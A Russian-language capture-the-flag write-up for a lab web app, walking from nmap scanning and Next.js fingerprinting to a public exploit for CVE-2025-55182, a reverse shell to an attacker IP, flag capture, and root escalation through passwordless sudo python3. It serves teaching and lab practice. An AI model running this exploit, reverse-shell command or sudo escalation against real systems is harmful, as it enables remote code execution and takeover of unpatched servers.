


# Writeup: Corp Website 

> Valentine's Day is fast approaching, and "Romance & Co" are gearing up for their busiest season.
Behind the scenes, however, things are going wrong. Security alerts suggest that "Romance & Co" has already been compromised. Logs are incomplete, developers defensive and Shareholders want answers now!
As a security analyst, your mission is to retrace the attacker's, uncover how the attackers exploited the vulnerabilities found on the "Romance & Co" web application and determine exactly how the breach occurred.
You can find the web application here: http://MACHINE_IP:3000  

Исходя из описания письма, организацию Romance & Co взломали и нам предстоит выяснить как именно это произошло.  

Начнем со сканирования открытых портов с помощью nmap:
```sh
nmap -sS -sV -p- 10.112.133.102
```
Результат приведен ниже
```sh
Starting Nmap 7.991SVN ( https://nmap.org )
Nmap scan report for 10.112.133.102
Host is up (0.0038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.99 seconds
```
По результатам сканера видим, что у нас есть два открытых порта:
- 22 - ssh
- 3000 - само веб-приложение, которое взломали хакеры  

Первое, с чего стоит начать изучение приложения, это изучить ответ от сервера при обращении к нему
```sh
root@04e87c338e55 /# curl 10.112.133.102:3000 -I
HTTP/1.1 200 OK
Vary: rsc, next-router-state-tree, next-router-prefetch, next-router-segment-prefetch, Accept-Encoding
x-nextjs-cache: HIT
x-nextjs-prerender: 1
x-nextjs-prerender: 1
x-nextjs-stale-time: 300
X-Powered-By: Next.js
Cache-Control: s-maxage=31536000
ETag: "pjux6x9npj1xgt"
Content-Type: text/html; charset=utf-8
Content-Length: 90103
Date: Sat, 14 Nov 2026 12:12:41 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```
Для нас есть уже интересная зацепка - приложение на Next.js, на фреймворке, который основан на ReactJS. Можно предположить, что CTF основана на недавней уязвимости в ReactJS/Next.js приложениях, приводящих к RCE.  

Для базового анализа приложения и сбора возможных ссылок я воспользуюсь своим инструментом [CyberWarn](https://github.com/rickert155/CyberWarn).  

Важно отметить, что полезная информация может быть в js файлах  
```sh
http://10.112.133.102:3000/_next/static/media/797e433ab948586e-s.p.dbea232f.woff2
http://10.112.133.102:3000/_next/static/media/caa3a2e1cccd8315-s.p.853070df.woff2
https://images.unsplash.com/photo-1514933651103-005eec06c04b?w=800&h=600&fit=crop
https://images.unsplash.com/photo-1519741497674-611481863552?w=800&h=600&fit=crop
https://images.unsplash.com/photo-1551882547-ff40c63fe5fa?w=800&h=600&fit=crop
http://10.112.133.102:3000/_next/static/chunks/1f815b7460bf8647.css
http://10.112.133.102:3000/_next/static/chunks/fd5f064b2a3f9309.js
data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg' viewBox='0 0 100 100'><text y='.9em' font-size='90'>💝</text></svg>
http://10.112.133.102:3000/#home
http://10.112.133.102:3000/#about
http://10.112.133.102:3000/#projects
http://10.112.133.102:3000/#contact
http://10.112.133.102:3000/#
```
В файле */_next/static/chunks/fd5f064b2a3f9309.js* можно заметить версию React 19.3.0. Если верить [NVD](https://nvd.nist.gov/vuln/detail/cve-2025-55182), то уязвимые версии 19.0.0, 19.1.0, 19.1.1 и 19.2.0. Но в любом случае стоит проверить наличие эксплоитов и проверить наличие уязвимости.  

Для уязвимости и правда есть [эксплоит](https://github.com/sickwell/CVE-2025-55182). В таком случае давайте его опробуем.  

Клонируем репозиторий
```sh
git clone https://github.com/Spritualkb/CVE-2025-55182-exp && cd CVE-2025-55182-exp
```
Установим библиотеки:
```sh
python3 -m venv venv && ./venv/bin/pip install requests && source venv/bin/activate
```
Опробуем его:
```sh
python3 CVE-2025-55182.py http://10.112.133.102:3000 -c "id"
```
  
Уязвимость подтверждена! Теперь попробуем получить реверс шелл:
```sh
python3 exp.py http://10.112.133.102:3000 --revshell 192.168.160.249 4444
```
Все заработало, нам удалось получить обратную оболочку.  
Судя по имени из результаты команды id - мы вошли под пользователем daniel. Один из флагов должен быть в его директории.
```sh
/app $ id
uid=100(daniel) gid=101(secgroup) groups=101(secgroup),101(secgroup)
/app $ ls /home/daniel
user.txt
/app $ cat /home/daniel/user.txt
THM{R34c7_2_5h311_3xpl017}
/app $
```
По итогу нам остается получить флаг root. Судя по выводу *sudo -l* мы можем запускать скрипты с правами рут без пароля
```sh
/app $ sudo -l
Matching Defaults entries for daniel on romance:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for daniel:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User daniel may run the following commands on romance:
    (root) NOPASSWD: /usr/bin/python3
```
Отлично, мы и правда можем выполнять скрипты от рута
```sh
sudo /usr/bin/python3 -c 'import os;print(os.listdir("/root/"))'
['root.txt', '.npm']
```
```sh
sudo /usr/bin/python3 -c 'print(open("/root/root.txt").read())'
THM{Pr1v_35c_47_175_f1n357}
```
